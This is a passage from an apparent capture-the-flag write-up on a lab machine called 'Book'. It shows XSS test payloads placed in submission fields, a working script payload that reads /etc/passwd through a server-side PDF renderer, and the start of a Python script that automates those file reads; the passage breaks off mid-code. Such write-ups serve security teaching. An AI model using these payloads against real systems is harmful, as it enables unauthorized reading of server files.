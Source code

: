 ```

 <p id="test">aa</p><script>document.getElementById('test').innerHTML+='aa'</script>

```

If that script runs, it should make a total of four `a` in the `<p>` tag.

I went to the Book submission tab on the non-admin site, and submitted test cases in each field:

![image-20200227221912699](https://0xdfimages.gitlab.io/img/image-20200227221912699.png)

I set both the id and the reference to the id in the second one `test2` so that I could test both fields independently. On viewing the PDF, both fields were vulnerable to XSS:

![image-20200227222452326](https://0xdfimages.gitlab.io/img/image-20200227222452326.png)

#### XSS for File Read

Now I’ll use this script from the same post to read `/etc/passwd`:

```

<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>

```

Instead of changing one field, it re-writes the entire document to be the contents of the given file, in this case, `/etc/passwd`. I submitted this as the title, and a dummy author, and then loaded the PDF again:

![image-20200227222709043](https://0xdfimages.gitlab.io/img/image-20200227222709043.png)

The table with the XSS seems to reset every minute, clearing out the XSS, which is actually good as I want to read multiple files, and don’t need them stomping each other.

### Scripting File Read

#### Creating the Script

I didn’t really need to do this, but it was a fun exercise to put all this together into a terminal script that allowed me to get files from Book. It took a fair bit of playing around in Burp comparing Python requests with ones made from Firefox to make sure I understood which headers mattered, and other things like that. The script is:

```

#!/usr/bin/python3

import requests
from cmd import Cmd
from tika import parser

class Terminal(Cmd):
    prompt = "book> "
    base_url = "http://10.10.10.176"

    def __init__(self):
        super().__init__()
        email = "0xdf@book.htb"
        password = "0xdf"
        self.user_sess = requests.session()
        #self.user_sess.proxies = {'http':'http://127.0.0.1:8080'}
        self.user_sess.get(f'{self.base_url}/index.php')
        self.user_sess.post(f'{self.base_url}/index.php', data=f"name=0xdf&email={email}&password={password}",
                headers={'Content-Type': 'application/x-www-form-urlencoded'})
```